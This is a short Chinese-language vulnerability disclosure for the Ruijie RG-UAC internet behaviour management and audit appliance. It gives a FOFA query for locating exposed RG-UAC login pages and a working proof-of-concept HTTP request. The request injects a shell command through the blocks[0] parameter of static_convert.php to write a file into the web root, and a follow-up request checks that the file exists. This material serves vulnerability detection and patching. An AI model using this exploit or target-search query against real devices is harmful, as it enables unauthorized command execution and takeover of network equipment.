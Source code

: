 **fofa**

```
title="RG-UAC登录页面"
```

**一、漏洞简述**

锐捷统一上网行为管理与审计RG-UAC是星网锐捷网络有限公司自主研发的业界领先的上网行为管理与审计产品，以路由、透明或混合模式部署在网络的关键节点上，对数据进行2-7层的全面检查和分析，深度识别、管控和审计数百种IM聊天软件、P2P下载软件、炒股软件、网络游戏应用、流媒体在线视频应用等常见应用，并利用智能流控、智能阻断、智能路由、智能DNS策略等技术提供强大的带宽管理特性，配合创新的社交网络行为精细化管理功能、清晰易管理日志等功能，同时具备了最精细的用户上网行为的审计功能，提供了业界最全面、完善的上网行为管理解决方案。锐捷统一上网行为管理与审计RG-UAC产品线提供不同档次的多款型号，适用于数据中心、大型网络边界、中小型企业等全业务应用场景。其接口static_convert存在任意命令执行漏洞，攻击者可通过该漏洞获取系统权限。

**二、漏洞检测poc**

```
GET /view/IPV6/naborTable/static_convert.php?blocks[0]=||echo%20'HelloWorldTest1'>/var/www/html/tmptest%0A HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close

```

```yaml
GET /tmptest HTTP/1.1
Host:x.x.x.x
Connection: close

```

